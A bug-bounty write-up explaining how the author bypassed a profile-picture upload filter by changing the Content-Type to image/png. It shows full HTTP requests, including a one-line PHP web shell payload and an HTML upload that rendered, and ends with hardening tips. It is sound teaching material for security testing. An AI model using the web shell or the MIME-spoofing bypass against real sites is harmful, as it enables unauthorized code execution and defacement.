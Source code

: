 ```yaml
---
title : File upload via mime type 
description : Updating the mime type of the file leads to file upload vulnerability
slug : file-upload-vdp-01
date : 2024-05-28 00:00:00+0000
image : cover.png
categories :
    - Bug Hunting
    - File upload vulerability
tags :
    - writeup
weight : 1
---
```


## Overview
I was testing an application which is used for `X` purpose. It has a dashboard and you can upload images which get's stored in the same server. 
Lately I have been researching about file upload vulnerabilites while I tried the same bug on the Target's from Hackerone usually they store the file over the s3 bucket or they remove the extension of the file so I was bit confused about How to exploit the web appilication using file upload vulnerability, As a result I started learning over portswigger and completed the file upload module.


## Back to the target

As I logged into the web application there was a dashboard and it has a general setting option.
![Dashboard](dashboard.png)

I have recently updated the profile picture so this time I want to upload a malicious file such as php code.

The request looks something like 

```
PUT /api/profile/profile-picture HTTP/2
Host: ***
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiJxMGUzdlNBSTVUIiwicm9sZSI6InVzZXIiLCJpYXQiOjE3MTY4OTE2ODN9.49xYj3tfO5-N_Pw0xlortlp9-WlY0L3xiOBw9RKzPrk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://***/dashboard/general
Content-Type: multipart/form-data; boundary=---------------------------25156492452924238624110306810
Content-Length: 274
Origin: https://***
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

-----------------------------25156492452924238624110306810
Content-Disposition: form-data; name="profile"; filename="fileUpload.php"
Content-Type: application/x-php

<?php echo system($_GET["command"]); ?>

-----------------------------25156492452924238624110306810--

```

Notice the **Content-Type: application/x-php** ?

Now let's check the response down which I received after sending this request.

```
HTTP/2 500 Internal Server Error
Date: Tue, 28 May 2024 15:24:12 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 44
X-Powered-By: Express
Etag: W/"2c-BUK5kJEdgVBEC0ZxSqwoL+oPm/Y"
Cf-Cache-Status: DYNAMIC
Report-To: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v4?s=DaNl%2FKe7pd5G4X57ksNbkdCUiboT%2FmLC%2Fu4KI%2FNo1MuI1Cj9wVuKEX6hr1qv6robRYutAGpk%2BdqMO%2BPqjPHQj1L%2FfxrAG27x95GOly%2BUwURUHH%2BY%2F4Dxhlv8KuQ01D4V%2FQpXSg%3D%3D"}],"group":"cf-nel","max_age":604800}
Nel: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
Alt-Svc: h3=":443"; ma=86400
Vary: Accept-Encoding
Server: cloudflare
Cf-Ray: 88af400ed8a54dce-SIN

{"message":"MimeType or size doesn't match"}
```

## Updating MimeType is like putting a mask 

Notice the **message** ? It sayes **MimeType or size doesn't match**

As I got this message as the response I update the **Content-Type:**
Previously **Content-Type: application/x-php**  
Currently  **Content-Type: image/png**  
![MimeTypeChange](mime-type-update.png)

I sent the request and go this beautiful message **{"message":"Profile picture updated"}**

After getting this response I checked the dashboard again and it seems like something worng has happend.
![Dashboard](profile-php-loaded.png)

I checked the html code using inspect tool provided by firefox and decoded the url
![htmlCode](html-code-image.png)
![Decode](url-decoder.png)

I visited the decoded url and found out that the server was not running apache server and my php file didn't run instead it got downloaded.
![SadPHPfileGotDownloaded](get-file-php.png)

## Changes are important

Now as the server is not serving php code I decided to go with basic exploitation such as **.html**
I followed the same process as above but this time I uploaded **.html** file.


The request looks like 

```
PUT /api/profile/profile-picture HTTP/2
Host: ***
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiJxMGUzdlNBSTVUIiwicm9sZSI6InVzZXIiLCJpYXQiOjE3MTY4OTE2ODN9.49xYj3tfO5-N_Pw0xlortlp9-WlY0L3xiOBw9RKzPrk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://***/dashboard/general
Content-Type: multipart/form-data; boundary=---------------------------25156492452924238624110306810
Content-Length: 266
Origin: https://***
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

-----------------------------25156492452924238624110306810
Content-Disposition: form-data; name="profile"; filename="fileUpload.html"
Content-Type: image/png

<h1>0xtheM7 was here</h1>

-----------------------------25156492452924238624110306810--

```

## Exploit
I sent the request and checked the html code with inspect tool decoded the url and boom .html file was loading without any issue.

![HTMLdeocde](html-url-decode.png)
![HTMLRUN](file-uploaded.png)

And we are able to run our code over the server which opens up the door to run different malicious scripts and eventually get the REC or diiferent bug such as XSS.

### How to make file upload secure
1. Check the extension of the file
2. Check the diamension of the file 
3. Don't upload to the server without checking validating it 
5. Do not run externally uploaded file on the run
